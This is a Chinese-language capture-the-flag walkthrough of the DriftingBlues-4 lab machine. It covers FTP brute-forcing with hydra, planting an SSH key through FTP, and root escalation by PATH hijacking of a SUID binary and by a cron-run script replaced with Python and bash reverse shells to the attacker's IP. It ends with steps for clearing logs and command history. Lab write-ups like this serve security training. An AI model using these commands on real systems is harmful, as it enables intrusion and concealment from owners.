

# 前言

靶机：`DriftingBlues-4`，IP地址`192.168.1.61`

攻击：`kali`，IP地址`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`


# 信息收集

## 使用nmap扫描端口


## FTP服务探测

尝试使用`anonymous`匿名空密码登录


## 网站探测

使用`gobuster、ffuf、dirsearch、dirb、dirbuster`等工具测试目标是否为目录型网站

```shell
gobuster dir -u http://192.168.1.61 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404,403 -d
```


访问80端口，查看页面源代码


## 各种解码及二维码解析操作

尝试进行解码操作


访问`imfuckingmad.txt`文件



使用网站`www.dcode.fr`分析


解码后发现`/iTiS3Cr3TbiTCh.png`


访问`/iTiS3Cr3TbiTCh.png`发现二维码


对该二维码图片进行解析，把图片下载到`kali`中

然后可以使用`kali`中的一个解析二维码和条形码的工具`zbarimg`，需要安装`zbar-tools`

```shell
apt-get install zbar-tools
```

或者使用网上的在线二维码解析`https://cli.im/deqr`


访问解析出的链接，因为是国外制造的靶场，所以这个链接需要代理一下


# 漏洞寻找

## FTP服务测试

给出几个用户名，把该做出字典，然后爆破`ssh`服务，不过测试发现，SSH服务不支持密码登录


那么尝试爆破`ftp`服务，获取到用户名`luther`密码`mypics`

```shell
hydra -L user -P /usr/share/wordlists/rockyou.txt 192.168.1.61 ftp
```


使用用户名和密码连接`ftp`


下载文件到`kali`中


查看该文件，并无内容


再次登录`ftp`，发现`hubert`目录的所有者并非`root`，可能是一个普通用户


> [!IMPORTANT]
>
> 这里只是进行猜测，毕竟无可利用，这里以`luther`登录，也有可能是该用户所有。
>
> 但是，假设，这里的`hubert`目录其实是`/home`目录下的一个用户，那么表示这里的目录`hubert`其实是一个用户的主目录，并且前面收集到的用户名确实有`hubert`，这里的目录还有写入权限，那么尝试生成公私钥，并上传公钥到创建的`.ssh`文件夹中，并改名为`authorized_keys`，是否可行


## SSH公私钥

生成`ssh`公私钥


连接`ftp`，在目录`hubert`下创建`.ssh`文件夹，并上传`authorized_keys`到`.ssh`目录


尝试使用密钥进行`ssh`登录


# 靶机内信息收集

使用`find`寻找具有SUID权限文件，发现`getinfo`文件，一般情况没有该文件，可能是自己编辑的

```shell
find / -perm -u=s -type f 2>/dev/null
```


查看`getinfo`文件，发现可能是调用一些命令`ip addr、cat /etc/hosts、uname -a`


查看定时任务，以及网络状态


查看当前用户的主目录发现一个文件，具有可执行的`python`脚本，查看该脚本，发现调用了`os`模块，虽然这里的`os.py`具有可写入权限，但是在调用命令时，需要使用`os`，所以不能直接修改`os.py`


上传`pspy64`检测是否有属于`root`的定时任务，发现每一分钟以`root`也就是`uid=0`执行该脚本，虽然不知道是否是文件所有者的关系，但是有时候是指定用户进行执行

```shell
scp pspy64 hubert@192.168.1.61:/tmp
```


# 提权

## 方法一

利用具有SUID权限的文件`getinfo`进行临时环境优先目录提取

首先把该文件下载，确定利用哪些，能否进行提取

```shell
scp hubert@192.168.1.61:/usr/bin/getinfo ./

strings getinfo
```


在`/tmp`目录下，创建一个与`ip`同名的名称，并写入脚本，然后使用`export`设置临时环境变量`/tmp`，执行`getinfo`就会提取成功

```shell
echo "/bin/bash" > ip
export PATH=/tmp:$PATH
chmod +x ip
/usr/bin/getinfo
```


## 方式二

通过定时任务冒充同一名称的`python`脚本进行执行

先进行测试，把`emergency.py`备份，然后创建一个`emergency.py`，编写代码，等待1分钟，发现文件所有者变为`root`，说明可以提取


再次写入代码，等待一分钟，发现已经提权

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.16",7777))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```


如果认为上面的代码太长，也可以使用下面代码，可以直接获得交互式界面

```shell
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.16/7777 0>&1'")
```


查看`root`的`flag`


# 清除痕迹

把`hubert`目录下的文件恢复到原本的状态，别忘了`.ssh`是创建的


删除在`/tmp`创建和上传的文件


清除各种日志


清除命令历史记录


# 总结

1. 考察几种解码的操作
2. 考察二维码的解析操作，这里使用`zbarimg`
3. 考察`ssh`服务的公私钥文件
4. 考察`ftp`服务的一些命令
5. 考察提权方式，例如自主创建的命令，这里是`getinfo`，具有SUID权限。定时任务提权，这里利用`pspy64`检测以`root`执行的定时任务，导致`python`文件同名替换，并利用`os.py`进行提取


